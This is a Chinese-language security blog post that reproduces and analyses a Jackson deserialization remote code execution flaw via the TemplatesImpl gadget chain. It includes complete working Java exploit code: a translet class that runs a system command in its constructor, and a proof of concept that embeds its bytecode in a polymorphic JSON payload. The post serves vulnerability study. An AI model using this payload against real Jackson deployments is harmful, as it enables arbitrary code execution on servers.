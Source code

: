 # Jackson反序列化（二）

  
  
&lt;!--more--&gt;  
## 0x01 影响版本  
Jackson 2.6 &lt; 2.6.7.1  
Jackson 2.7 &lt; 2.7.9.1  
Jackson 2.8 &lt; 2.8.8.1  
## 0x02 限制  
由于是打的 TemplaesImpl 链，所以要求 JDK 版本是 7u21 或者 8u20，动态代理相关的链子。  
## 0x03 漏洞复现  
Test.java  
```java  
public class Test{  
	public Object object;  
}  
```  
SimpleCalc.java  
```java  
import com.sun.org.apache.xalan.internal.xsltc.DOM;    
import com.sun.org.apache.xalan.internal.xsltc.TransletException;    
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;    
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;    
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;    
    
public class SimpleCalc extends AbstractTranslet {    
    
    public SimpleCalc() throws Exception {    
        Runtime.getRuntime().exec(&#34;open -a Calculator&#34;);    
    }    
    
    @Override    
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {    
    
    }    
    
    @Override    
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {    
    
    }    
}  
```  
Poc.java  
```java  
import com.fasterxml.jackson.databind.ObjectMapper;    
    
import javax.xml.bind.DatatypeConverter;    
import java.io.File;    
import java.io.FileInputStream;    
    
    
public class Poc {    
    public static void main(String[] args) throws Exception {    
        String exp = readClassStr(&#34;/Users/f10wers13eicheng/Desktop/Java/JacksonDemo1/src/main/java/SimpleCalc.class&#34;);    
        String jsonInput = aposToQuotes(&#34;{\&#34;object\&#34;:[&#39;com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39;,\n&#34; &#43;    
                &#34;{\n&#34; &#43;    
                &#34;&#39;transletBytecodes&#39;:[&#39;&#34;&#43;exp&#43;&#34;&#39;],\n&#34; &#43;    
                &#34;&#39;transletName&#39;:&#39;huahua&#39;,\n&#34; &#43;    
                &#34;&#39;outputProperties&#39;:{}\n&#34; &#43;    
                &#34;}\n&#34; &#43;    
                &#34;]\n&#34; &#43;    
                &#34;}&#34;);    
        System.out.println(jsonInput);    
        ObjectMapper mapper = new ObjectMapper();    
        mapper.enableDefaultTyping();    
        Test test;    
        try{    
            test = mapper.readValue(jsonInput, Test.class);    
        }catch(Exception e){    
            e.printStackTrace();    
        }    
    }    
    
    
    public static String aposToQuotes(String json){    
        return json.replace(&#34;&#39;&#34;, &#34;\&#34;&#34;);    
    }    
    public static String readClassStr(String cls) throws Exception{    
        File file = new File(cls);    
        FileInputStream fileInputStream = new FileInputStream(file);    
        byte[] bytes = new byte[(int) file.length()];    
        fileInputStream.read(bytes);    
        String base64Encoded = DatatypeConverter.printBase64Binary(bytes);    
        return base64Encoded;    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411122340342.png)
Jackson 是调用任意的构造函数与任意的`setter`方法，为什么会触发这条链子呢？  
7u21这条链子本质上其实是`TemplateImpl`类的类动态加载，配合上动态代理来打的，可是这里不论是动态代理，还是`TeamplaesImpl.getOutputProperties()`，都和 Jackson 没关系。  
## 0x04 漏洞分析  
首先是第一次到`com.fasterxml.jackson.databind.deser.BeanDeserializer#deserialize`方法，反序列化Test类，会走到其构造函数里面，并且继续处理`object`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411132219288.png)
继续往下走，下一步是反序列化 object 里面的数据  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411132223084.png)
这里看一下`_beanProperties`里的值  
```  
Properties=[uriresolver([simple type, class javax.xml.transform.URIResolver]), transletBytecodes([array type, component type: [array type, component type: [simple type, class byte]]]), outputProperties([map type; class java.util.Properties, [simple type, class java.lang.String] -&gt; [simple type, class java.lang.String]]), transletName([simple type, class java.lang.String]), stylesheetDOM([simple type, class com.sun.org.apache.xalan.internal.xsltc.DOM])]  
```  
除了`setter`函数中的属性之外，还有`outputProperties`，为什么`outputProperties`会被拿到呢？因为`outputProperties`属性有相应的`getter`方法，而其他属性却没有  
接着来看看对于`outputProperties`是怎么处理的  
`outputProperties`属性在`deserializeAndSet()`函数中是通过反射机制调用它的`getter`方法，这就是该利用链能被成功触发的原因  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411132226184.png)
这里也指出了一条攻击利用手法，也就是构造函数中存在的属性，不存在`setter`方法时，都会自动调用到`getter`方法。  

---

> Author: N1Rvana  
> URL: http://localhost:1313/jackson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%BA%8C/  

